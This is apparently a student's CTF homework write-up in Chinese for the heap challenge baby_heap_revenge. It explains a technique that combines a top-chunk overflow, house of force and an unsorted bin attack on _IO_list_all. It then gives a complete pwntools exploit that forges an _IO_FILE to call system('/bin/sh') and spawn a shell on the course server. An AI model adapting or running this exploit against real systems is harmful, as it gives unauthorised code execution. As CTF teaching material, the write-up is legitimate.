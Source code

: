 # Software Security Hw05 - baby_heap_revenge

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```



- 本題可以不斷重複alloc一段heap的空間，並且擁有8byte的overflow可以利用

- 參考 angelboy 的blog文章可以知道利用overflow去複寫top chunk的size使其縮小大小並aligned page且為large bin大小，就可以藉此觸發```_init_free```glibc就會產生一塊unsorted bin在原先top chunk的位置

- 利用house of force的技巧將top chunk移動到unsorted bin chunk上方後，便可以製造出與此chunk overlap的一個chunk，此時就可以拿到libc以及heap的位置，此為```unsorted bin attack```

- 由於glibc在memory corruption後會針對```__IO_list_all```內所有file descriptor觸發```_IO_flush_all_lockp```此structure會去執行對應vtable的 virtual function pointer

- 為此，我們竄改此unsorted bin chunk的bk pointer為指向```__IO__list_all ```的pointer，再取出top unsorted bin的時候就會使得原先指向```__IO_list_all```的pointer就會指向```main_areana```

- 將```unsoted bin attack```與```house of force```同時利用可以製造出各種chunk的overlap就可以操控```__IO_list_all```的chain

- 至此，我們就可以任意偽造small bin[4]對應chunk的內容，也就等於可以偽造一個自己的```__IO_FILE``` 的```wide_data```以及```vtable```達到RCE



![](https://i.imgur.com/Dc6Y5Jh.png)



- 以下為script
```
#!/usr/bin/python

from pwn import *
from pwnlib import *

if __name__ == '__main__':

    if args.args['REMOTE']:
        r = remote('csie.ctf.tw', 10141)
    else:
        r = process('./baby_heap_revenge')


    def alloc(size, content):
        r.recvuntil(':')
        r.sendline('1')
        r.recvuntil(':')
        r.sendline(str(size))
        r.recvuntil(':')
        r.send(content)

    def show():
        r.recvuntil(':')
        r.sendline('2')

    malloc_hook = 0x003c4b10
    unsortbin_offset = 0x3c4b88
    largebin_offset = 0x3c5188
    smallbin_offset = 0x3c4d88
    system = 0x00045390
    io_list_all = 0x03c5520
    wide_io = 0x3c49c0

    alloc(0x88, '\x00'*0x88 + p64(0xf71)) # overwrite top chunk size
    alloc(0x1000, '\x00') # trigger _int_free

    alloc(0x400, 'A'*0x8) # get unsortedbin
    show()
    libc = u64(r.recvuntil('\n')[9:-1].ljust(8,'\x00')) - largebin_offset 
    print "libc:", hex(libc)


    alloc(0x400, 'A'*0x10) # get unsortedbin
    show()
    heap = u64(r.recvuntil('\n')[17:-1].ljust(8, '\x00')) - 0x4a0
    print "heap:", hex(heap)

    alloc(0x500, '\x00') # get unsortedbin make unsortedbin size to small bin
    alloc(0x408, '\x00'*0x408 + '\xff'*8) # overwrite top chunk size
    alloc(-0x19660, '\x00') # house of force 1
    alloc(0x408, '\x00'*0x408 + '\xff'*8)
    alloc(-0x8b00, '\x00') # house of force 2 to the address before small bin


    alloc(0x408, '\x00'*0x408 + p64(0x501)) # fake top chunk size
    alloc(0x1000, '\x00') # trigger _int_free
    alloc(0x470, '\x00')
    alloc(0x1000, '\x00') # get 0x60 small bin

    # house of force to overlap
    alloc(0x308, '\x00'*0x308 + '\xff'*8)
    alloc(-0x19660, '\x00')
    alloc(0x308, '\x00' * 0x308 + '\xff'*8)
    alloc(-0x19660, '\x00')
    alloc(0x308, '\x00' * 0x308 + '\xff'*8)
    alloc(-0x121a0, '\x00')


    alloc(0x2c8, '\x00'*0x2a0 + p64(libc+smallbin_offset) + p64(libc+smallbin_offset) + '\x00'*0x18 + p64(0x211))
    alloc(0x1000, '\x00') # make unsorted bin

    # get the small bin which overlap with unsorted bin
    alloc(0x218, '\x00'*0x28 + p64(0xbf1) + p64(libc+unsortbin_offset) + p64(libc+io_list_all-0x10)) 



    payload = '\x00' *0x180
    stream = '/bin/sh\x00' + '\x00'*0x98
    stream += p64(heap+0x1050)
    stream += p64(0)*3
    stream += p64(1)
    stream += p64(0)*2 + p64(heap+0x1080)

    payload += stream
    payload += p64(1) + p64(2) + p64(3)
    payload += p64(0) *4 
    payload += p64(libc+system)

    alloc(0xbe0, payload)

    r.interactive()


```




reference: http://blog.angelboy.tw/